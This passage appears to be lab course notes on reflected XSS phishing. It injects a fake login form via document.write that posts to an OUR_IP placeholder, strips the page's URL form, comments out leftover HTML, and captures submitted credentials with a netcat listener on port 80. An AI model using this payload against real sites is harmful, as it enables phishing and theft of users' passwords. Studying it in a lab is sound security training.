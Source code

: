 ```
Next, we should prepare our **XSS** code and test it on the vulnerable form. To write HTML code to the **vulnerable** page, we can use the **JavaScript** function ```document.write()```. Discovery step. Once we **minify** our **HTML** code into a single line and add it inside the write function, the final **JavaScript** code should be as follows:
```document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');```

We can now inject this JavaScript code using our XSS payload. In this case, we are exploiting a Reflected XSS vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the Reflected XSS section, and the page should look as follows when we visit the malicious URL:
![[SJG-qurNkl 2.png]]
#### Cleaning Up
We can see that the **URL** field is still displayed, which defeats our line of "Please login to continue". So we should remove the **URL** field. To do so, we can use the **JavaScript** function ```document.getElementById().remove()``` function.

To find the **id** of the HTML element we want to remove, we can open the **Page Inspector Picker** by clicking `[CTRL+SHIFT+C]` and then clicking on the element we need: 
![[SkNOK9SVJg.png]]

As we see in both the source code and the hover text, the **url** has the id **urlform**

So, we can now use this **id** with the ```remove()``` function to remove the URL form:
```document.getElementById('urlform').remove();```

Now, once we add this code to our previous JavaScript code (after the ``document.write`` function), we can use this new JavaScript code in our payload.

When we try to inject our updated **JavaScript** code, we see that the **URL form** is indeed no longer displayed:
![[rJBs5cr4Jg.png]]

See, how there's still a piece of the original **HTML** code left after our **injected** login form. This can be removed by simply commenting it out, by adding an **HTML opening comment** after our **XSS** payload:
```...PAYLOAD... <!-- ```

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form.

#### Credential Stealing:
The part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error This site can’t be reached. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a site can’t be reached error.

So, let us start a simple **netcat** server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:
```
sudo nc -lvnp 80
```

Now, let's attempt to login with the credentials **test:test**, and check the **netcat** output we get (don't forget to replace OUR_IP in the XSS payload with your actual IP):
```bash
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX 
Get /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
..SNIP..
```
As we can see, we can capture the credentials in the **HTTP** request URL (``/?username=test&password=test``). If any victim attempts to log in with the form, we will get their credentials.
